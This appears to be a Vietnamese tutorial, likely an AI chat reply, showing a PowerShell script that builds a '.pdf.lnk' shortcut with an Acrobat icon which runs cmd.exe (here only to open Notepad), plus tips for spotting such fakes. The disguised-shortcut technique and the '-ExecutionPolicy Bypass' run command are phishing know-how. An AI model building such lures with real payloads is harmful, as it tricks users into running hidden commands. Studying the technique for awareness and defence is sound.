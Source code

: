 ## 🎭 **Tạo file LNK giả mạo file PDF nhưng thực tế là một shortcut chạy lệnh tùy chỉnh**  

### 📌 **Mục tiêu**
- Tạo một **file shortcut (.LNK)** nhưng giả mạo là một file PDF.  
- Khi mở, nó sẽ chạy một lệnh đơn giản như mở **Notepad** (hoặc có thể thay đổi thành một hành động khác).  

---  

## 📝 **1. Tạo file shortcut giả dạng PDF**  
Dưới đây là cách tạo một **file .LNK giả dạng PDF** bằng PowerShell.  

### 🔹 **Bước 1: Tạo shortcut bằng PowerShell**
Mở **Notepad**, sao chép đoạn mã sau, và lưu thành **`create_fake_pdf.ps1`**:  

```powershell
$WshShell = New-Object -ComObject WScript.Shell
$Shortcut = $WshShell.CreateShortcut("$env:USERPROFILE\Desktop\document.pdf.lnk")
$Shortcut.TargetPath = "C:\Windows\System32\cmd.exe"
$Shortcut.Arguments = "/c start notepad.exe"
$Shortcut.IconLocation = "C:\Program Files\Adobe\Acrobat Reader DC\Reader\AcroRd32.exe, 0"
$Shortcut.Save()
```

### 🔹 **Bước 2: Chạy script**
Mở **PowerShell** và chạy lệnh:  

```powershell
powershell -ExecutionPolicy Bypass -File create_fake_pdf.ps1
```

🔹 **Kết quả:**  
- Một file **`document.pdf.lnk`** sẽ xuất hiện trên Desktop.  
- Nó có **biểu tượng giống file PDF** (Adobe Acrobat).  
- Khi người dùng mở file này, nó **không mở PDF** mà thay vào đó mở **Notepad**.  

---

## 🧐 **📌 Giải thích**
- **`document.pdf.lnk`**: Đây thực chất là một file shortcut `.LNK`, nhưng kẻ tấn công có thể đặt tên là `.pdf` để đánh lừa người dùng.  
- **`TargetPath = cmd.exe`**: Shortcut sẽ gọi **Command Prompt**.  
- **`Arguments = "/c start notepad.exe"`**: Khi mở, nó chạy lệnh `start notepad.exe`.  
- **`IconLocation`**: Shortcut lấy icon của **Adobe Acrobat**, làm nó trông như một file PDF thực sự.  

---

## 🚨 **Cách phòng tránh**
✅ **Bật hiển thị phần mở rộng file** trong Windows để dễ phát hiện `.lnk`.  
✅ **Không mở file PDF từ nguồn không tin cậy**, đặc biệt nếu kích thước quá nhỏ.  
✅ **Kiểm tra file bằng Notepad**: Nếu mở bằng Notepad mà thấy đường dẫn đến `cmd.exe`, có thể là shortcut giả mạo.  
✅ **Sử dụng phần mềm diệt virus** để kiểm tra shortcut đáng ngờ.  

---

💡 **Tóm lại:** Đây là một ví dụ **không độc hại**, chỉ giúp bạn hiểu cách shortcut `.LNK` có thể giả dạng file PDF. Nếu bạn muốn thử nghiệm thêm với các loại lệnh khác hoặc cách phát hiện shortcut giả, mình có thể hướng dẫn tiếp! 🚀